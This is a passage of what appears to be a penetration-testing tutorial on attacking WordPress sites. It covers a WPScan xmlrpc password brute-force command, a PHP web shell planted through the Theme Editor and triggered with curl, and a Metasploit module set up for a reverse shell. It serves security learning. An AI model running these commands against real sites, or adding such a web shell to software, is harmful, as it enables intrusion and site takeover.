 If the credentials are not valid, we will receive a **403 faultCode error**. We can enumerate the aviable methods replacing `wp.getUsersBlogs` by `system.listMethods`.

## WPScan 

WPScan is an automated WordPress scanner and enumeration tool. It determines if the various themes and plugins used by a WordPress site are outdated or vulnerable.

---

# Exploitation

## Exploiting a Vulnerable Plugin 

### Leveraging WPScan Results 

With the report from WPScan we can try to use the vulnerabilities found. Each vulnerability has his way to exploit, some of them can be easily find, others can haven't a public POO.

## Attacking WordPress Users 

### WordPress User Bruteforce 

WPScan can be used to brute force usernames and passwords. The tool uses two kinds of login brute force attacks, **xmlrpc** and **wp-login**. The **wp-login** method will attempt to brute force the normal WordPress login page, while the **xmlrpc** method uses the WordPress API to make login attempts through `/xmlrpc.php`{: .filepath}. The **xmlrpc** method is preferred as it is faster. We can do with the following command:
```console
zero@pio$ wpscan --password-attack xmlrpc -t 20 -U <USER> -P <WORDLIST> --url http://<TARGET>
```

## RCE via the Theme Editor

### Attacking the WordPress Backend 

With administrative access to WordPress, we can modify the PHP source code to execute system commands. Click on **Appearance** on the side panel and select **Theme Editor**. This page will allow us to edit the PHP source code directly. For example, adding `system($_GET['cmd']);` to a page like `404.php`:
```console
zero@pio$ curl -X GET "http://<TARGET>/wp-content/themes/twentyseventeen/404.php?cmd=id"
```

## Attacking WordPress with Metasploit 

### Automating WordPress Exploitation 

We can use the **Metasploit Framework** (**MSF**) to obtain a reverse shell on the target automatically. This requires valid credentials for an account that has sufficient rights to create files on the webserver:
```console
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts <TARGET>
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set username <USER> 
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set password <PASSWORD>
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set lhost <IP>
msf5 exploit(unix/webapp/wp_admin_shell_upload) > run
```

---